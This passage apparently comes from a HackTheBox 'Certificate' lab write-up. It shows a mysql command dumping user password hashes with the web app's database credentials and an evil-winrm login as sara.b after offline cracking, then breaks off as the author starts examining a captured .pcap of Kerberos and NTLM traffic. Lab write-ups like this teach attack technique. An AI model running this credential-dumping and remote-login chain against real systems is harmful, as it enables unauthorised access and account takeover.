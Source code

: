 ```
   die('Database connection failed: ' . $e->getMessage());
}
?>
``` 

Queried DB using local mysql client:
```
C:\xampp\mysql\bin\mysql.exe -u certificate_webapp_user -p'[REDACTED]' -e 'use certificate_webapp_db; select id,username,role,password from users;'

<SNIP>

id      username    role    password
10      sara.b      admin   $2y$04$[REDACTED-HASH]

<SNIP>
```

### Privilege Escalation — Stepwise
#### Step 1 — Offline password cracking & Domain login

The web user had DB access so we stored bcrypt hashes for site users; extracting these enabled offline cracking and domain-authentication attempt:
```shell
┌───(root㉿kali)-[~/HTB/Certificate]
└─$ evil-winrm -i 10.10.11.71 -u sara.b -p 'REDACTED'                                 
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Sara.B\Documents> whoami
certificate\sara.b
```

#### Step 2 — Network capture roast -> crack Lion.SK

Exploring `sara.b` session we noticed inside the `Documents` a `.pcap` file. Downloading and opening it with `Wireshark` revealed some auth packets (smb2, kerberos, ntlmssp).